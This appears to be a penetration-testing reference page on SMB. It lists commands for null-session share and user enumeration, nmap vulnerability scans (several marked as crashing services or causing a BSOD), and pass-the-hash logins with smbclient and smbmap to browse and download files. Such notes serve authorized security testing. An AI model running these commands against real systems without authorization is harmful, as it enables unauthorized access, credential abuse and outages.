```yaml
---
layout: default
nav-order: 1
title: SMB
parent: Network Services
---
```


# SMB
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Exposed Shares
```shell
smbmap -H <ip>
smbmap -H <ip> -u <username>  # adding anything as the <username> will sometimes return results
enum4linux -v <ip>            # wrapper around tools such as rpcclient that gives lots of info
rpcclient -U <username> <ip>  # "" <username> for null sessions, empty password when prompted
```
- Commands while connected via `rpcclient`:
    - `srvinfo` gives server details
    - `enumdomuser` gives configured users
    - `getdompwinfo` gives domain password policy

---

## Nmap CVE Scans
Safe vulnerability scan
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-ms06-025,smb-vuln-ms07-029,smb-vuln-ms08-067,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-vuln-cve-2017-7494 <ip>
```

Windows 2000 regsvc null pointer crash (_**service crashes if successful**_)
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-regsvc-dos <ip>
```

CVE-2009-3103 DOS check (Windows Vista and some of 7 - _**BSOD if successful**_)
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-cve2009-3103 <ip>
```

CVE-2010-2550 memory corruption check (_**BSOD if successful**_)
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-ms10-054 <ip>
```

---

## Pass-the-hash
List directories
```shell
smbclient -U <user>%<hash> --pw-nt-hash -L <ip>
```
```shell
smbmap -u <user> -p '<NTLM hash>:<LM hash>' -H <ip>
```
- _LM hash is legacy and can usually be anything_
- `--download <path>`: download file
- `-R`: recursively list files

Open specific directory

```shell
smbclient -U <user>%<hash> --pw-nt-hash //<ip>/<directory>
```

---

## Regular usage
Mount
```shell
mount -t cifs -o username=<username> //<ip>/ /mnt/smb/
```

---

## Local Checks
What is exposed?
```powershell
net share          # List shares
net share <share>  # Info about share
```